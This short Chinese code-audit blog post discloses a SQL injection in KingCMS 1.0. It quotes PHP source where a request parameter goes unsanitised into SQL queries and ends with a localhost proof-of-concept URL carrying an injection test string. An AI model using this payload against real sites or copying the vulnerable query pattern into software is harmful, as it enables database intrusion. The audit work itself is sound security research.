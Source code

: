 title: "KingCMS 1.0 SQL Injection"
date: 2013-06-09 23:03:30
tags:
id: 206
comment: false
categories:
  - 代码审计
---

[http://www.kingcms.com/download/local/10/](http://www.kingcms.com/download/local/10/)
<pre class="brush:php">/**
	分页列表信息
	@param int listid : 列表id
	@return array
*/
public function infoList($listid=null){
	global $king;

	if(!$listid)                        //逻辑错误，导致注入。
		$listid=kc_get('listid',2,1);//必须的

	if($listid==0)
		return;

	$cachepath='portal/list/'.$listid;

	$array=$king-&gt;cache-&gt;get($cachepath);//缓存中的listInfo
	if(!$array){
		$array=array();
		if($list=$king-&gt;db-&gt;getRows_one("select * from %s_list where listid={$listid}")){
			foreach($list as $key =&gt; $val){
				if(!kc_validate($key,2))
					$array[$key]=$val;
			}
		}else{
			kc_error($king-&gt;lang-&gt;get('system/error/param').kc_clew(__FILE__,__LINE__,$king-&gt;lang-&gt;get('portal/msg/listname'))."&lt;p&gt;LISTID: $listid&lt;/p&gt;");
		}

		$modelid=$list['modelid'];
		if($modelid&gt;0){//非内置模型的时候
			$model=$this-&gt;infoModel($modelid);

			$resCount=$king-&gt;db-&gt;getRows_one("select count(*) AS ncount from %s__{$model['modeltable']} where listid=$listid and nshow=1 and kid1=0;");//显示的主题内容
			$resCountAll=$king-&gt;db-&gt;getRows_one("select count(*) AS ncount from %s__{$model['modeltable']} where listid=$listid and kid1=0;");//所有的主题内容

			if($list['ncount']!=$resCount['ncount']){//当前列表数量和实际的数字不同的时候，更新结构缓存
				$array['ncount']=$resCount['ncount'];
			}
			$array['ncountall']=$resCountAll['ncount'];

			$array['pcount']=($list['ncount']==0) ? 1:ceil($array['ncount']/$list['nlistnumber']);//列表，共pcount页，前台的

		}

		$isexist= $king-&gt;db-&gt;getRows_number('%s_list',"listid1=$listid")&gt;0 ? 1 : 0;//是否存在子栏目
		//更新列表数据
		$array_list_up=array(
			'ncount'=&gt;$array['ncount'],
			'ncountall'=&gt;$array['ncountall'],
			'isexist'=&gt;$isexist,
			);
		$king-&gt;db-&gt;update('%s_list',$array_list_up,"listid=$listid");

		$array['isexist']=$isexist;

		$site=$this-&gt;infoSite($list['siteid']);
		$array['klisttitle']=$list['ktitle'];

		//直接在这个列表信息获取函数里转换的话，无需再次进行转换
		$array_htmlspecialchars=array('ktitle','klisttitle','klistname','kkeywords','klistpath','kdescription','kimage','klanguage');//需要转换为htmlspecialchars的字段
		foreach($array_htmlspecialchars as $key =&gt; $val){
			$array[$val]=htmlspecialchars($array[$val]);
		}

		$king-&gt;cache-&gt;put($cachepath,$array);
	}
	return $array;
}
........

http://127.0.0.1/kingcms_php_1.0/index.php/list-13 and 1=1-1.html</pre>
&nbsp;

&nbsp;